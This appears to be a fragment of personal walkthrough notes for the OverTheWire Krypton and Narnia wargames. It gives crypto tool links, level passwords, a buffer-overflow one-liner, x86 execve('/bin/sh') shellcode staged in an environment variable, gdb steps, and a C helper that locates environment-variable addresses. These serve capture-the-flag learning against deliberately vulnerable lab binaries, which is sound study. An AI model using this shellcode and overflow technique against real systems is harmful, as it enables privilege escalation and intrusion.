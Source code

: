 >http://www.richkni.co.uk/php/crypta/freq.php￼

4 CLEARTEXT

>https://github.com/sarang25491/PyCrack

>https://www.cs.du.edu/~snarayan/crypt/vigenere.html

5 RANDOM


## Narnia

0 narnia0

1 efeidiedae

```c
    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char *argv[]){
        setreuid(geteuid(),geteuid());
        system("/bin/bash");
        return 0;
    }
```

```bash
    (python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat) |./narnia0 
```

2 nairiepecu

export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`

3

```bash
gdb /narnia/narnia2
(gdb) set disassembly-flavor intel
(gdb) disas main
```

```bash
    export EGG=`python -c'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80"'`
```

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc,char *argv[]){
        char *ptr;
        ptr = getenv(argv[1]);
        ptr += (strlen(argv[0])-strlen(argv[2]))*2;
        printf("%s is at %p\n", argv[1],ptr);
        return 0;
}
```
